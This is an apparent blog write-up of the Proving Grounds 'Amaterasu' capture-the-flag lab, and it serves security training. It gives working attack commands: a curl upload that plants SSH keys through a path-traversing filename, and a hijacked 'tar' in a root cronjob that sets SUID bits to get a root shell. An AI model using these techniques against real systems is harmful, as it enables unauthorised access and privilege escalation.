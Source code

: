 ```yaml
---
title: "Proving grounds Play: Amaterasu"
layout: post
date: 2023-09-22 02:00
categories: writeup
---
```


Proving grounds Play - Amaterasu CTF writeup.

## Nmap

```sh
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
25022/tcp open  ssh     OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 68c605e8dcf29a2a789beea1aef6381a (ECDSA)
|_  256 e989ccc21714f3bc6221064a5e7180ce (ED25519)
33414/tcp open  unknown
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.3 Python/3.9.13
|     Date: Fri, 22 Sep 2023 01:48:00 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
40080/tcp open  http    Apache httpd 2.4.53 ((Fedora))
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.53 (Fedora)
|_http-title: My test page
```

## PORT 21: FTP

The FTP service got us nothing.

## Web PORT: 33414

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/web.png)

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/dir.png)

Upon directory fuzzing the file `/help` has been discovered and below is the response for the file.

http://192.168.193.249:33414/help

```json
[
  "GET /info : General Info",
  "GET /help : This listing",
  "GET /file-list?dir=/tmp : List of the files",
  "POST /file-upload : Upload files"
]
```

The above are RESTAPI endpoints and it's operations.

### Endpoint: /file-list?dir=/tmp

The endpoint allows the enduser to list the directories in the system. It won't allow users to view file but to list the directories only.

### Endpoint: /file-upload

The endpoint allows the enduser to upload files to the system, by abusing this feature the attacker can upload his/her `id_rsa.pub` file as `authorrized_keys` to the system and later obtain user shell vis SSH login.

## File Upload

Generate SSH key and rename the `id_rsa.pub` file to `authorized_keys.txt`. Use the below curl command to upload the file directly to the `/home/alfredo/.ssh/` folder by specifying the location `/home/alfredo/.ssh/authorized_keys` in the filename.

```sh
curl -L -i -X POST -H "Content-Type: multipart/form-data" -F file="@/home/naveenj/pg-play/Amaterasu/authorized_keys.txt" -F filename="/home/alfredo/.ssh/authorized_keys" http://192.168.193.249:33414/file-upload
```

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/upload.png)

SSH to user alfredo using the port 25022.

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/shell.png)

**Initial Foothold Obtained**

## Privilege Escalation

### Cronjob

```sh
[alfredo@fedora restapi]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh
```

There is a cronjob running as root which executes the `/usr/local/bin/backup-flask.sh` bash script.

### /usr/local/bin/backup-flask.sh

```sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

let's check the permission of the bash script, if the current user has write permission then it's easy to obtain root.

But unfortunately only root user has read, write and execute permissions for the script.

```sh
-rwxr-xr-x. 1 root root 106 Mar 28 03:18 /usr/local/bin/backup-flask.sh
```

As shown in the above script on line 4 it executes `tar` binary as root to extract a file, which can abused by create a script named `tar` inside the restapi folder.

Create a bash script with file name as `tar` only with below contents.

```sh
#!/bin/bash

chmod u+s /usr/bin/find
```
Apply executable permissions `chmod +x tar`.

So once the above code executes, we will be able to obtain root by using the SUID bypass exploit for the binary `find`. There are other alternatives are there instead of using binary `find` we can use `/usr/bin/bash` as well.

```sh
#!/bin/bash

cp /bin/bash /home/alfredo/restapi/bash; chmod u+s /home/alfredo/restapi/bash;
```

Once the script is executed as root, it copies `bash` to restapi folder and applies permission to execute the binary as owner in our case that would be the root user and that the SUID bit is set.

After the bash binary is placed in the restapi folder check the file permissions and execute the below to obtain root.

```sh
[alfredo@fedora restapi]$ pwd
/home/alfredo/restapi
[alfredo@fedora restapi]$ ls -al
total 1372
drwxr-xr-x. 3 alfredo alfredo      77 Sep 22 02:26 .
drwx------. 4 alfredo alfredo     127 Mar 28 03:18 ..
-rw-r--r--. 1 alfredo alfredo     198 Mar 28 03:18 app.py
-rwsr-xr-x  1 root    root    1390080 Sep 22 02:31 bash
-rw-r--r--. 1 alfredo alfredo    2509 Mar 28 03:18 main.py
drwxr-xr-x. 2 alfredo alfredo      32 Mar 28 03:18 __pycache__
-rwxr-xr-x  1 alfredo alfredo      92 Sep 22 02:25 tar
[alfredo@fedora restapi]$ ./bash -p
bash-5.1# whoami
root
bash-5.1#
```

Wait for 60 seconds for the cronjob to complete, then use the below command to obtain root.

```sh
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).